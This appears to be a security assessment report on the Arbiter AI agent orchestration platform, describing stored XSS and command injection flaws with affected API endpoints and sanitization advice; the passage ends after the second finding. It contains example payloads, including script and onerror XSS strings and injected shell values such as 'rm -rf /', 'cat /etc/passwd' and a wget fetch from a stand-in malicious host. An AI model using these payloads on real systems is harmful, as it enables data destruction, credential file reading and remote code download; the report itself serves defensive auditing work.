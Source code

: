 # Arbiter Security Assessment Report

## Executive Summary

A comprehensive security assessment was conducted on the Arbiter AI agent orchestration platform. The assessment identified several critical security vulnerabilities that require immediate attention, particularly around input sanitization and validation.

## Critical Vulnerabilities Identified

### 1. Cross-Site Scripting (XSS) Vulnerability - HIGH RISK

**Description**: The API does not sanitize HTML/JavaScript content in agent configurations, allowing XSS payloads to be stored and potentially executed.

**Affected Endpoints**:
- `POST /api/agents` - Agent creation
- `PUT /api/agents/:id` - Agent updates
- `POST /api/workflows` - Workflow creation

**Example Payload**:
```javascript
{
  "id": "malicious-agent",
  "name": "<script>alert('XSS')</script>",
  "description": "<img src='x' onerror='alert(1)'>",
  "systemPrompt": "javascript:alert('XSS')"
}
```

**Impact**: 
- Stored XSS attacks affecting users viewing agent configurations
- Potential session hijacking and privilege escalation
- Client-side code execution in the frontend application

**Recommendation**: Implement HTML sanitization using libraries like DOMPurify or html-sanitize before storing user input.

### 2. Command Injection Vulnerability - HIGH RISK

**Description**: The API does not sanitize command injection patterns in agent execution data, potentially allowing execution of arbitrary system commands.

**Affected Endpoints**:
- `POST /api/agents/:id/execute` - Agent execution

**Example Payload**:
```javascript
{
  "input": {
    "message": "; rm -rf /",
    "command": "| cat /etc/passwd",
    "file": "&& wget malicious.com/script.sh"
  }
}
```
